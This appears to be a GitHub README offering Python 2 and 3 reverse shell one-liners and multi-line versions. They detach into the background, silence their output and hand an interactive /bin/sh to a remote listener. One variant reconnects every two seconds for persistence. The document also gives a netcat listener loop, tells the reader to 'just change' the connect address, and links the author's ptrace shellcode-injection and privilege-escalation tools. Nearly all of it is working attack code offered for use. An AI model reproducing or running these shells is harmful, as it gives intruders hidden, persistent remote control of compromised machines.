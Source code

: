 # python 2 & 3 reverse shell one liner detached (background) By David Reguera Garcia aka Dreg

just change **connect(("127.0.0.1",9999))**

## Simple reverse shell
```
python -c 'exec("""\nimport socket,subprocess,os,sys\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\n\nos.setsid()\n\nos.umask(0)\n\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nsys.stdout.flush()\n\nsys.stderr.flush()\n\nfdreg = open("/dev/null", "w")\n\nsys.stdout = fdreg\n\nsys.stderr = fdreg\n\nsdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\nsdregs.connect(("127.0.0.1",9999))\n\nos.dup2(sdregs.fileno(),0)\n\nos.dup2(sdregs.fileno(),1)\n\nos.dup2(sdregs.fileno(),2)\n\np=subprocess.call(["/bin/sh","-i"])\n""")'
```

## Infinite loop reverse shell each 2 seconds:
```
 python -c 'exec("""\nimport socket,subprocess,os,sys, time\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\nos.setsid()\nos.umask(0)\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nwhile 1:\n        try:\n                sys.stdout.flush()\n\n                sys.stderr.flush()\n\n                fdreg = open("/dev/null", "w")\n\n                sys.stdout = fdreg\n\n                sys.stderr = fdreg\n\n                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\n                sdregs.connect(("127.0.0.1",9999))\n\n                os.dup2(sdregs.fileno(),0)\n\n                os.dup2(sdregs.fileno(),1)\n\n                os.dup2(sdregs.fileno(),2)\n\n                p=subprocess.call(["/bin/sh","-i"])\n\n                sdregs.close()\n\n        except Exception:\n                pass\n\n        time.sleep(2)\n""")'
```

Just wait for reverse shell with a nc
```
while true; do nc -lvp 9999; done
```

I made this for my shellcode injector in sudo shells via ptrace:

https://github.com/David-Reguera-Garcia-Dreg/drx_ptrace_shellcode_injector

https://github.com/David-Reguera-Garcia-Dreg/ptrace_misconfiguration_local_privilege_escalation

https://github.com/David-Reguera-Garcia-Dreg/

http://www.fr33project.org

dreg@fr33project.org

## multi line code

### Simple reverse shell 

```
import socket,subprocess,os,sys

pidrg = os.fork()
if pidrg > 0:
	sys.exit(0)

os.chdir("/")

os.setsid()

os.umask(0)

drgpid = os.fork()
if drgpid > 0:
	sys.exit(0)

sys.stdout.flush()

sys.stderr.flush()

fdreg = open("/dev/null", "w")

sys.stdout = fdreg

sys.stderr = fdreg

sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

sdregs.connect(("127.0.0.1",9999))

os.dup2(sdregs.fileno(),0)

os.dup2(sdregs.fileno(),1)

os.dup2(sdregs.fileno(),2)

p=subprocess.call(["/bin/sh","-i"])
```

### Infinite loop reverse shell each 2 seconds

```
import socket,subprocess,os,sys, time

pidrg = os.fork()
if pidrg > 0:
        sys.exit(0)

os.chdir("/")
os.setsid()
os.umask(0)
drgpid = os.fork()
if drgpid > 0:
        sys.exit(0)

while 1:
        try:
                sys.stdout.flush()

                sys.stderr.flush()

                fdreg = open("/dev/null", "w")

                sys.stdout = fdreg

                sys.stderr = fdreg

                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

                sdregs.connect(("127.0.0.1",9999))

                os.dup2(sdregs.fileno(),0)

                os.dup2(sdregs.fileno(),1)

                os.dup2(sdregs.fileno(),2)

                p=subprocess.call(["/bin/sh","-i"])

                sdregs.close()

        except Exception:
                pass

        time.sleep(2)
```

http://jagt.github.io/python-single-line-convert/
